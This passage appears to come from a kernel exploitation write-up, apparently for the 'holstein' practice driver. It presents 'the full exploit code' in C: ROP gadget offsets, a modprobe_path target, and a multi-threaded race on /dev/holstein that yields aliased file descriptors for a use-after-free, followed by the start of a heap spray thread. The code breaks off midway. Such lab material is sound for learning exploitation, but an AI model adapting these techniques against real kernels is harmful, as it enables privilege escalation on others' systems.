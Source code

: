 Here is the full exploit code. There are still improvements to be made to make it more reliable.

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/syscall.h>
#include <sys/prctl.h>
#include <pthread.h>
#include <sched.h>

#define mov_rax_ptr_rdx (kbase + 0x3c27b9) // mov rax, qword ptr [rdx] ; ret 
#define mov_ptr_rdx_ecx (kbase + 0x109ed) // mov dword ptr [rdx], ecx ; ret
#define modprobe_path (kbase + 0xe384c0)

int fd1, fd2;
long long user_cs, user_rflags, user_rsp, user_ss;
long long kbase, g_buf;
char buf[0x400];

// Wrapper around syscall to get thread id
pid_t gettid(void) {
    return syscall(SYS_gettid);
}

int win = 0;
void* race_fd(void *arg) {
    // Limit thread to one CPU
    cpu_set_t *cpu_set = (cpu_set_t*)arg;
    if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set)) {
        perror("sched_setaffinity error");
    }

    while (1) {
        while (!win) {
            int fd = open("/dev/holstein", O_RDWR);
            if (fd == fd2) {
                win = 1;
            }
            if (win == 0 && fd == fd1) {
                close(fd);
            }
        }
        // Other thread can still close fd, sanity check
        if (write(fd1, "A", 1) != 1 || write(fd2, "a", 1) != 1) {
            close(fd1);
            close(fd2);
            win = 0;
        } else {
            // All good
            break;
        }
    }
    return NULL;
}

void* spray_thread(void *arg) {
    int x;
    long spray[800];
```